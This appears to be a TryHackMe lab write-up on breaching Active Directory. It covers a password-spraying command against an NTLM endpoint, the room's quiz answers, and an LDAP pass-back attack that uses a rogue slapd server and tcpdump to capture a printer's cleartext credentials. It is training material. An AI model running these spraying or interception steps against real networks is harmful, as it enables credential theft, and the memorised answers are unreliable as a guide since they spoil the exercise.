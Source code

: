 ```shell
#password spraying attack
python3 ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
#-f is for fqdn
```

```markdown
1. What is the name of the challenge-response authentication mechanism that uses NTLM? - NetNTLM

2. What is the username of the third valid credential pair found by the password spraying script? - gordon.stevens

3. How many valid credential pairs were found by the password spraying script? - 4

4. What is the message displayed by the web application when authenticating with a valid credential pair? - Hello World
```

## LDAP Bind Credentials

* LDAP (Lightweight Directory Access Protocol) authentication is similar to NTLM authentication; but with LDAP, the app directly verifies the user's creds.

* LDAP authentication is usually employed with 3rd party apps that integrate with AD.

* LDAP pass-back attacks can be performed when we have gained initial access to internal network and/or a device's config where LDAP params are specified.

* In this attack, we can alter the LDAP config such that while attempting LDAP authentication, we can intercept the authentication attempt to recover LDAP creds.

* For this task, we are given a username ```svcLDAP``` and a website containing the settings for a printer; this website does not require creds, but we can leverage this to get LDAP creds.

* Now, for the server IP, we can enter our IP, and use 'Test Settings' after setting up listener to attempt getting reverse shell; however it does not work with netcat, so we will have to create a rogue LDAP server.

```shell
nc -lvp 389
#since 389 is default port of LDAP
#this does not work
```

* Hosting a rogue LDAP server:

```shell
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
#installing openLDAP

sudo dpkg-reconfigure -p low slapd
#configure LDAP server according to given instructions

#also create the given ldif file to make our rogue LDAP server vulnerable
vim olcSaslSecProps.ldif

#use ldif file to patch LDAP server
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
#to verify if the config has been applied

#now we can click on Test Settings in the printer settings page
#and start tcpdump to capture creds
sudo tcpdump -SX -i breachad tcp port 389
#we can intercept passwords in cleartext now
```
